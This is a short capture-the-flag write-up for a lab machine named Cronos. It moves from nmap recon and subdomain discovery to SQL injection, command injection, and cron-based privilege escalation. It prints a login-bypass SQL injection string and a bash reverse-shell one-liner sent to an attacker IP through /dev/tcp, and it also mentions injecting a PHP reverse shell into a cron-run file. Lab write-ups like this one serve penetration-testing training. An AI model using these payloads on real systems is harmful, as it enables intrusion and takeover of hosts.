


# Cronos

## Machine Info



## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 80 http, 53 domain service
- Path -> nothing special
- Subdomain -> `admin.cronos.htb`


## Foothold

- login page


- SQLi

```
admin' or 1=1 -- -
1
```

- command injection


- get a reverse shell, `10.10.14.15;bash -c "bash -i >& /dev/tcp/10.10.14.15/1234 0>&1"`


## Privilege Escalation

- config cred -> mysql -u homestead -p [x]


- `cat /etc/crontab`



- artisan is editable, inject php reverse shell script


## Exploit Chain

subdomain scan -> sqli -> command injection -> get a user shell -> scheduled task -> php reverse shell -> root shell
